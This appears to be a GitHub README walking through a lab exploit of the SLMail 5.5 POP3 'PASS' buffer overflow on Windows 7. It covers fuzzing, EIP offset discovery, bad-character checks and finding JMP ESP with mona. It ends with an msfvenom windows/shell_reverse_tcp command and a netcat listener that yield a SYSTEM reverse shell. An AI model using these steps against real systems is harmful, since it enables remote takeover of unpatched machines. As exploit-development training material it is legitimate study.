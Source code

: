 # Remote-buffer-overflow

Windows exploitation using Remote buffer overflow vulnerability of Seatle Lab mail 5.5 
=====================================================================================

Remote buffer overflow on POP3 'PASS'of Seatle Lab mail 5.5
Windows x86 vulnerability (https://www.exploit-db.com/exploits/638)

Tools/ configuration used
-------------------------
Windows 7 32 bit
Kali linux 2020
VMware
Seatle Lab mail 5.5 (vulnerable software)(https://slmail.software.informer.com/5.5/)
Immunity debugger (python)  	(https://www.immunityinc.com/products/debugger/index.html)
mona.py				(https://github.com/corelan/mona)


------------------------------------------------
On windows 7:

Install Immuinity debugger(with python)
Copy mona.py to pyCommands folder located at Immunity debugger installation directory 
Install Seatle Lab mail 5.5 with default configuration

To ignore unwanted interuption:
	Disable firewall protection
	Stop automatic update
	Disconnect internet (set Host-only network connection)

Note Windows 7 ip=> (eg. 192.168.220.132)
port => 110

On Linux PC:

Six python script (intermediate) files used to create final exploitation python file
a0.py		to identify buffer overflow filled with 'A's
a1.py		to fill with pattern of characters to identify EIP location and buffer offset size
a2.py		to ensure to control EIP with 'B's
bad1.py		to Identify bad characters(01) with all possible values (to ignore in shellcode) 
bad2.py		to Identify bad characters(02) with all possible values (to ignore in shellcode) 
bad3.py		to Identify bad characters(03) with all possible values (to ignore in shellcode) 
(bad... if necessary)

xploit.py	Final exploitation script

--------------------------------------------------
On windows PC

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

-------------------------------------------------
Create an array of buffer with 'A's

==> run a0.py
crashed @ 2900

EIP overwritten with AAAA (41414141) 	(observe on Immunity Debugger)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
Created unique pattern with a1.py to identify the location of EIP

>>>locate pattern_create
copy & paste ruby script with length of 2700
(/usr/share/metasploit-framsework/tools/exploit/pattern_create.rb -l 2700)

==> run a1.py

EIP overwritten with value		(observe on Immunity Debugger)
locate and copy EIP value on DBG (eg. 39694438)

>>>locate pattern_offset
copy & paste ruby script with EIP value
(/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438)

Note the offset exact match value (eg. 2606)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
 
Create a buffer pattern to ensure the EIP control
( 2606*A + 4*B + 90*C)
"A"s     EIP      Payload(shellcode)

==> run a2.py

EIP overwritten with BBBB (42424242) 	(observe on Immunity Debugger)
Note that we can control the EIP

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

----------------------------------------------------

Identify bad characters (01)
by sending all possible characters as payload part (skip \x00 -->common bad character)

==> run bad1.py

Identify firts missed bad character to skip in shellcode(eg. \x0a ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (02)
by sending all possible characters except identified character (\x00 & \x0a) as payload part

==> run bad2.py

Identify next missed bad character to skip in shellcode(eg. \x0d ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (03)
by sending all possible characters ecxept identified characters (\x00,\x0a & \x0d ) as payload part

==> run bad3.py

Identify next missed bad character to skip in shellcode(eg. no any character) 

start Seatle Lab mail 
(run exploit.py without Immunity DBG) 
------------------------------------------------------

to create final exploitation script

get address of jmp ESP

>>>locate nasm_shell
copy & paste ruby script
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	nasm> jmp esp
	note value to identify the address using mona script (eg. FFE4)

On immunity debugger run mona scripts
	!mona modules
		note the slmfc.ll file - false value with Rebase, safeSEH, ALSR & NXcompat

	!mona find -s "\xff\xe4" -m slmfc.dll (FFE4 copied from nasm shell)
		copy the address of one of the result
 
                        ..........................

create shellcode using mfsvenom 	 

msfvenom -p windows/shell_reverse_tcp LHOST=<Target_ip_address> LPORT=<port> -f py -b '<bad Characters>' -e x86/shikata_ga_nai
(eg.
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.220.130 LPORT=443 -f py -b '\x00\x0a\x0d\' -e x86/shikata_ga_nai
)

create final overflow pattern 
	"A"s(offset size) + jmpESP (in little endian format) + nop sleds(\x90) + payload(shellcode)

EXPLOITAION:

open another terminal for netcat listener
==> nc -nlvp 443 
    (same port used in shellcode creation)

==> run exploit.py

DONE! GOT --> system reverse shell of target machine

References:
https://www.peerlyst.com/posts/hands-on-windows-exploit-development-stack-based-buffer-overflow-bof-chiheb-chebbi?trk=search_page_search_result
https://www.offensive-security.com/metasploit-unleashed/msfvenom/
http://sh3llc0d3r.com/exploit-development/
https://www.youtube.com/watch?v=OOkU7to0Ty4
https://stackoverflow.com/questions/5286117/incompatible-character-encodings-ascii-8bit-and-utf-8
